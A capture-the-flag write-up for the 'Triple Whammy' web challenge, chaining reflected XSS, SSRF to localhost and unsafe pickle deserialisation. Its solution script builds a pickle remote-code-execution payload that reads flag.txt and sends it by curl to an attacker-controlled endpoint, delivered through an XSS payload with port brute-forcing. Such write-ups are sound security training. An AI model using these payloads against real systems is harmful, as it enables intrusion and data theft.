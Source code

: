 <h1>Triple Whammy ~ Web </h1>

<h2>Description and Analysis</h2>


<blockquote>Server - https://triple-whammy.chal.cyberjousting.com/

Admin bot - https://triple-whammy-admin.chal.cyberjousting.com/

Author:Legoclones

Note: 
For all web challenges, for reasons unknown to mankind, 
calls back to webhook.site(and perhaps others) are not working
so try to use something like https://requestcatcher.com/ (which is confirmed to work)
</blockquote>

<p> In this challenge they gave us source code of the server and admin bot source code </p>

```
from flask import Flask, request
from urllib.parse import urlparse
import requests


# initialize flask
app = Flask(__name__)
SECRET = open("secret.txt", "r").read()


# index
@app.route('/', methods=['GET'])
def main():
    name = request.args.get('name','')

    return 'Nope still no front end, front end is for noobs '+name


# query
@app.route('/query', methods=['POST'])
def query():
    # get "secret" cookie
    cookie = request.cookies.get('secret')

    # check if cookie exists
    if cookie == None:
        return {"error": "Unauthorized"}
    
    # check if cookie is valid
    if cookie != SECRET:
        return {"error": "Unauthorized"}
    
    # get URL
    try:
        url = request.json['url']
    except:
        return {"error": "No URL provided"}

    # check if URL exists
    if url == None:
        return {"error": "No URL provided"}
    
    # check if URL is valid
    try:
        url_parsed = urlparse(url)
        if url_parsed.scheme not in ['http', 'https'] or url_parsed.hostname != '127.0.0.1':
            return {"error": "Invalid URL"}
    except:
        return {"error": "Invalid URL"}
    
    # request URL
    try:
        requests.get(url)
    except:
        return {"error": "Invalid URL"}
    
    return {"success": "Requested"}


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337, threaded=True)
```

As we can see there is XSS vector on this line ` return 'Nope still no front end, front end is for noobs '+name`
Another endpoint is `/query` where we can see if cookie is matching the secret it takes `url` parameter which is being parsed and
there is a check that url has to have scheme of `http` or `https` and that hostname is `127.0.0.1`- on valid url server will make a request to it. 
Which concludes that this will be *SSRF*  with local service in play. There was yet another file called internal.py which we were supposed to bypass to get the flag.

```from flask import Flask, request
import pickle, random


# initialize flask
app = Flask(__name__)
port = random.randint(5700, 6000)
print(port)


# index
@app.route('/pickle', methods=['GET'])
def main():
    pickle_bytes = request.args.get('pickle')

    if pickle_bytes is None:
        return 'No pickle bytes'
    
    try:
        b = bytes.fromhex(pickle_bytes)
    except:
        return 'Invalid hex'
    
    try:
        data = pickle.loads(b)
    except:
        return 'Invalid pickle'

    return str(data)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=port, threaded=True)
```

There are two things here:
  - Port is random
  - Unsafe usage of pickle which we will utilize for RCE
   

## Solution

Below is the full script, which will send malicious link to the bot to trigger XSS that will further make a request to `/query` and we know that cookie check is done on that endpoint so we need bot to make a request with its cookie.
From `admin_bot.js` bot was setting cookie with `httpOnly: true` but that doesn't matter since we are not trying to extract nor access the bot's cookie with JS. Bot will send its cookie by default which is only thing that we care about for this to successfully make a request to the servers `/query` endpoint.
I had some problems with passing payload for pickle RCE - so my teammate just adjusted a script for a bit (props to him). The RCE payload will `cat flag.txt` and pass the data to our server that we control via `curl` request.
Since range of 300 random ports is not much, it was just bruteforceable.
 

```python3
import time
import urllib.parse
import requests
import pickle
import os

REMOTE = "https://triple-whammy-admin.chal.cyberjousting.com"

class RCE:
    def __reduce__(self):
        return (os.system, (
            "python3 -c \"import urllib.parse; import os; data = urllib.parse.quote(open('flag.txt').read()); os.system(f'curl https://d7ef132972.endpoints.dev/q?data={data}')\"",
        ))

payload = pickle.dumps(RCE())
hex_payload = payload.hex()

def create_payload(port):
    url = f"http://127.0.0.1:{port}/pickle?pickle={hex_payload}"
    
    payload = f'''<script>
    fetch('/query', {{
        method: 'POST',
        headers: {{
            'Content-Type': 'application/json',
        }},
        body: JSON.stringify({{'url':'{url}'}})
    }});
    </script>'''

    return urllib.parse.quote(payload)

for port in range(5700, 6001):
    encoded_payload = create_payload(port)
    
    data = {
        'path' : '?name=' + encoded_payload
    }
    
    print(f"Trying port {port}")
    
    response = requests.post(REMOTE + "/visit", data=data)
    print(f"DEBUGPRINT[4]: lab.py:58: response.text={response.text}")
    
    if response.status_code == 200:
        print(f"Sent request for port {port}")
    
    time.sleep(1)
```

On correct bruteforce received request was:

` GET /q?data=byuctf%7Byou_got_a_turkey%21%21%21%7D HTTP/1.1`


<b> FLAG: byuctf{you_got_a_turkey!!!}</b>

<b>author: </b> [hebi](https://github.com/0xhebi)
